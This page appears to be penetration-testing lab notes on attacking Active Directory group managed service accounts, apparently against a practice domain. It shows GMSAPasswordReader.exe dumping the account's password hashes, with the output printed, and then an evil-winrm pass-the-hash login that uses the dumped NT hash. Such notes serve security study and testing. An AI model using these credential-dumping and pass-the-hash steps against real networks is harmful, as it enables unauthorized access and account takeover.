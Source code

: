 # Attacking Service Accounts

## Introduction

For more on service accounts and enumeration go here:

{% embed url="https://www.rotta.rocks/active-directory/enumerating-active-directory/enumerating-objects#confirm-gmsa-is-enabled" %}

{% embed url="https://www.rotta.rocks/active-directory/enumerating-active-directory/enumerating-service-accounts" %}

## Dumping hashes - Group Managed Service Accounts (GMSA)

It's not uncommon to see service accounts that utilize GMSA to handle credentials.&#x20;

### GMSADumper.py

We can use GMSADumper from our kali box to dump hashes. Depending on the user we're running from we'll receive a full NTLMv2 hash or a NT Hash.&#x20;

From there we can go along to either crack the NTLMv2 hash or try to perform a Pass-The-Ticket (PTT) attack.

{% embed url="https://github.com/micahvandeusen/gMSADumper" %}

### **GMSAPasswordReader.exe**&#x20;

If we have access to a service account with READ privilege for GMSA we can use [GMSAPasswordReader.exe](https://github.com/expl0itabl3/Toolies) to view the password of the GMSA managed service account

```powershell
.\GMSAPasswordReader.exe --accountname 'svc_apache'

Calculating hashes for Old Value
[*] Input username             : svc_apache$
[*] Input domain               : HEIST.OFFSEC
[*] Salt                       : HEIST.OFFSECsvc_apache$
[*]       rc4_hmac             : 526C435B8E4CF11F447D6EF7152665BB
[*]       aes128_cts_hmac_sha1 : 19565C12FDE19AD1033BA3BBD56DD230
[*]       aes256_cts_hmac_sha1 : 43F6DECE6269A588687ACFF41F633A0F7AA9C3FBC7FEAB8BE6981854C19FE817
[*]       des_cbc_md5          : 4AEA91DCEF918F29

Calculating hashes for Current Value
[*] Input username             : svc_apache$
[*] Input domain               : HEIST.OFFSEC
[*] Salt                       : HEIST.OFFSECsvc_apache$
[*]       rc4_hmac             : 83AC7FECFBF44780E3AAF5D04DD368A5
[*]       aes128_cts_hmac_sha1 : 08E643C43F775FAC782EDBB04DD40541
[*]       aes256_cts_hmac_sha1 : 588C2BB865E771ECAADCB48ECCF4BCBCD421BF329B0133A213C83086F1A2E3D7
[*]       des_cbc_md5          : 9E340723700454E9

```

<mark style="color:red;">NOTE:</mark> rc4\_hmac is the same as the ntlm hash.



### Login to svc\_apache with credentials

DONT FORGET THE $ IN THE USERNAME! ANYTIME YOU SEE THIS YOU MUST ADD IT!

```shell-session
evil-winrm -i 192.168.191.165 -u svc_apache$ -H 83AC7FECFBF44780E3AAF5D04DD368A5 
```
